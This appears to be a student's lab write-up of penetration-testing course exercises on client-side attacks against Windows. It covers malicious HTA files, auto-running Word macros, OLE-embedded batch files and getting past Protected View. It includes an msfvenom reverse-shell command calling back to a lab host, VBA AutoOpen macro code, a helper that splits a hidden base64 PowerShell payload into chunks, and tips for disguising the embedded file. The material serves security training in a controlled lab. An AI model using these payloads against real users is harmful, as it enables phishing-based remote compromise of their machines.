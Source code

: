 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[Pasted image 20220715172425.png]]

When we run the PoC we get a successful calc.exe command:
![[Pasted image 20220715172534.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[Pasted image 20220715173157.png]]
![[Pasted image 20220715173122.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[Pasted image 20220715173422.png]]
![[Pasted image 20220715173441.png]]
Upon clicking "Run" we recieve our connection.
![[Pasted image 20220715173521.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[Pasted image 20220715175358.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[Pasted image 20220715175549.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[Pasted image 20220715180707.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[Pasted image 20220715180802.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[Pasted image 20220715215507.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[Pasted image 20220715215735.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[Pasted image 20220715220140.png]]

Once we open our Word document and launch our object we will recieve a reverse shell.
![[Pasted image 20220715221253.png]]
![[Pasted image 20220715221353.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**

We can trigger the Protected View by simply downloading our document from our Apache web server.
![[Pasted image 20220716163717.png]]
![[Pasted image 20220716163746.png]]

**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**

Creating the object in Microsoft Publisher using our previous methods allows us to gain a reverse shell.
![[Pasted image 20220716165201.png]]
Once the object is run we receive our connection.
![[Pasted image 20220716165222.png]]


**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**

Once we move the Publisher file to our Apache server and download the file we can see that the "Protected View" is no longer present.

![[Pasted image 20220716165532.png]]![[Pasted image 20220716165551.png]]